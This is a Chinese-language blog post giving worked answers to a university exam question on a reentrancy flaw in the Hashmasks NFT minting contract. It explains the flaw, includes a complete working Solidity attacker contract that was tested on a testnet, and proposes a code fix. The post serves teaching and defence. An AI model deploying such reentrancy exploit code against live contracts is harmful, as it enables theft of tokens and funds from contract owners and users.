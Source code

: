 # CS251 - final 2021 - 问题 4


**问题4. [16 分]: Hashmasks 重入缺陷**

在第8课和第3节中，我们讨论了 solidity 重入缺陷。在这个问题中，我们将看一个有趣的现实世界的例子。考虑下面16384个NFT中使用的 solidity 代码片段。通过调用此NFT合约上的 `mintNFT()` 函数，用户一次最多可以铸造20个NFT。您可以假设所有内部变量都由构造函数正确初始化（未显示）。

<!--more-->

```solidity
  function mintNFT(uint256 numberOfNfts) public payable {
    require(totalSupply() < 16384, 'Sale has already ended');
    require(numberOfNfts > 0, 'numberOfNfts cannot be 0');
    require(numberOfNfts <= 20, 'You may not buy more than 20 NFTs at once');
    require(totalSupply().add(numberOfNfts) <= 16384, 'Exceeds NFT supply');
    require(getNFTPrice().mul(numberOfNfts) == msg.value, 'Value sent is not correct');
    for (uint256 i = 0; i < numberOfNfts; i++) {
      uint256 mintIndex = totalSupply(); // get number of NFTs issued so far
      _safeMint(msg.sender, mintIndex); // mint the next one
    }
  }

  function _safeMint(address to, uint256 tokenId) internal virtual override {
    // Mint one NFT and assign it to address(to).
    require(!_exists(tokenId), 'ERC721: token already minted');
    _data = _mint(to, tokenId); // mint NFT and assign it to address to
    _totalSupply++; // increment totalSupply() by one
    if (to.isContract()) {
      // Confirm that NFT was recorded properly by calling
      // the function onERC721Received() at address(to).
      // The arguments to the function are not important here.
      // If onERC721Received is implemented correctly at address(to) then
      // the function returns _ERC721_RECEIVED if all is well.
      bytes4 memory retval = IERC721Receiver(to).onERC721Received(to, address(0), tokenId, _data);
      require(retval == _ERC721_RECEIVED, 'NFT Rejected by receiver');
    }
  }
```

让我们证明 `_safeMint` 根本不安全（尽管它的名字是安全）。

**A)**    假设已经铸造了16370个NFT，那么 totalSupply()=16370。请解释恶意合约如何导致超过16384个NFT被伪造。攻击者最多可以造出多少个NFT？

提示：如果在调用地址 `onERC721Received` 是恶意的，结果会怎样？请仔细检查铸币回路，并考虑重入缺陷。

**答：** 在已经 mint 16370 个NFT基础上，调用 mingNFT 可传入的最大 numberOfNfts 为 14 可以通过 mintNFT 开始五行的限制，当上述合约在调用地址 `to` 上的 `onERC721Received` 函数时，这个函数可以再次调用上述 mingNFT 函数，此时，在原来已经 mint 一个的基础上，传入的 numberOfNfts 为 13 个可以通过 mintNFT 的限制，然后重复同样的过程，依次可以 mint 12， 11 直到 1，最后在函数内部，已经没有其他限制，故这些数量的 NFT 均可以被 mint，所以理论上总共可以 mint 的数量为 $14+13+\dots+2+1=105$。

**B)**    假设现在总供给的价值是16370，请写出实施对（a）部分进行攻击的恶意Solidity合约代码。

**答：** 

```solidity
contract Attacker is IERC721Receiver {
  Hashmasks hashmasks;

  constructor(address _hashmasksAddress) {
    hashmasks = Hashmasks(_hashmasksAddress);
  }

  function attack() public payable{
    {
      uint256 num = hashmasks.balanceOf(address(this));
      // console.log("num: ", num);
      if (num < 14) {
        // 16384 - 16370 = 14
        hashmasks.mintNFT{value: 14-num}(14 - num);
      }
    }
  }

  function onERC721Received(
    address _from,
    address _to,
    uint256 _tokenId,
    bytes memory _data
  ) external returns (bytes4) {
    attack();
    return msg.sig;
  }
}
```

其中 `attack` 设置为 *`payable` 是因为需要通过攻击合约调用 mintNFT 函数，需要发送一定数量的以太，可以选择在部署后先发送一定数量的以太到攻击者合约中，也可以将 `attack` 设置成 `payable`，在攻击的交易中发送以太到*

实验：在 Rinkeby 上部署，攻击者合约地址为 0xf1eb80Bb66A70E44d42B3ceC0bC18Ec28B5F2Ea8，实际攻击的交易：[https://rinkeby.etherscan.io/tx/0xb90496fd8789c3d1800df1bd3a571d019fb6158cbd521a9d05e57ad62460d15f](https://rinkeby.etherscan.io/tx/0xb90496fd8789c3d1800df1bd3a571d019fb6158cbd521a9d05e57ad62460d15f)，这个部署的合约中，NFT的价格设置为 1 wei，所以理论上只要发送 105 wei 到攻击这合约中，但是保险起见，发送了150wei，最后也可以看到攻击这合约中还剩下 45 wei。

**C)**    你会在前一页的代码中添加或更改哪一行Solidity来防止你的攻击?请注意，单个交易不应该铸造超过20个NFT。

**答：** 可以将 `_safeMint` 方法中， `_totalSupply++;` 这一行放到验证 NFT 的调用之后：

```solidity
  function _safeMint(address to, uint256 tokenId) internal virtual override {
    // Mint one NFT and assign it to address(to).
    require(!_exists(tokenId), 'ERC721: token already minted');
    _data = _mint(to, tokenId); // mint NFT and assign it to address to
    
    if (to.isContract()) {
      // Confirm that NFT was recorded properly by calling
      // the function onERC721Received() at address(to).
      // The arguments to the function are not important here.
      // If onERC721Received is implemented correctly at address(to) then
      // the function returns _ERC721_RECEIVED if all is well.
      bytes4 memory retval = IERC721Receiver(to).onERC721Received(to, address(0), tokenId, _data);
      require(retval == _ERC721_RECEIVED, 'NFT Rejected by receiver');
    }
	_totalSupply++; // increment totalSupply() by one
  }
```

这样，当合约被重入攻击时，由于 `_totalSupply` 还没有增加，因此在第二次进入 `mintNFT` 函数时 `mintIndex` 的值是第一次 mint 的值，会导致触发 `'ERC721: token already minted'` 这个错误，有效保证合约安全。

```solidity
    for (uint256 i = 0; i < numberOfNfts; i++) {
      uint256 mintIndex = totalSupply(); // get number of NFTs issued so far
      _safeMint(msg.sender, mintIndex); // mint the next one
    }
```

验证交易： https://rinkeby.etherscan.io/tx/0xa5f70a226c5fd64132eee800f8902ddb9b4ff562ff7f37820d11746fbde52acb

感谢 discord **yyczz#5837** 对于这个问题的指导。

[View on GitHub](https://github.com/qiwihui/blog/issues/157)


